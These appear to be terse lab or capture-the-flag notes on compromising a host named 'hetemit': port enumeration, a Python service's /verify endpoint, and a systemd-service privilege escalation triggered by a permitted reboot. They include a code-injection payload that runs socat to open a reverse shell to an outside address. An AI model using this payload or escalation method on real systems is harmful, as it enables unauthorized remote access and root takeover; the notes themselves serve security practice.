




_____

> [!info]
> IP=192.168.188.117


# SMB

Cmeeks                                                  NO ACCESS       cmeeks Files


# 80
gobuster -- nothing

# 18000



`Rails.root: /home/cmeeks/register_hetemit`


# 50000
python

/generate
/verify






```**python**
code=os.system('socat+TCP:192.168.45.214:80+EXEC:sh')
```


# PrivEsc

writable

/etc/systemd/system/pythonapp.service



```txt
User cmeeks may run the following commands on hetemit:
    (root) NOPASSWD: /sbin/halt, /sbin/reboot, /sbin/poweroff
```

> # As “services” require restarted/system reboot to refresh whatever changes we made to the service app, we type “sudo /sbin/reboot” and system was rebooted
